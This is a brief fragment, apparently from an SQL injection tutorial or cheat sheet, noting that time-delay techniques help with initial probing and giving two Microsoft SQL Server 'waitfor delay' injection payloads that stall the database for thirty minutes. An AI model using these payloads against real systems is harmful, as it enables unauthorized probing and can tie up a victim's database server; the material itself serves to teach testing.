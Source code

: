 The time-delay technique can also be immensely useful when performing initial probing.

'; waitfor delay '0:30:0'--

1; waitfor delay '0:30:0'--

